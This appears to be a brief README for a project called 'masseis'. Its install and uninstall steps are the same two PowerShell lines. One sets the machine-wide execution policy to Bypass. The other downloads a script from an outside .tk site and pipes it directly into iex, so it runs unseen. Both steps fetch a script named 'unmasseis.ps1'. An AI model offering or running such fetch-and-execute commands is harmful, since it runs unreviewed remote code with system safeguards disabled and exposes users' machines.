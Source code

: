 # masseis

install:
```ps1
Set-ExecutionPolicy Bypass -Scope LocalMachine -Force
iwr -useb www.thatonelukas.tk/unmasseis.ps1 | iex
```
---
uninstall:
```
Set-ExecutionPolicy Bypass -Scope LocalMachine -Force
iwr -useb www.thatonelukas.tk/unmasseis.ps1 | iex
```
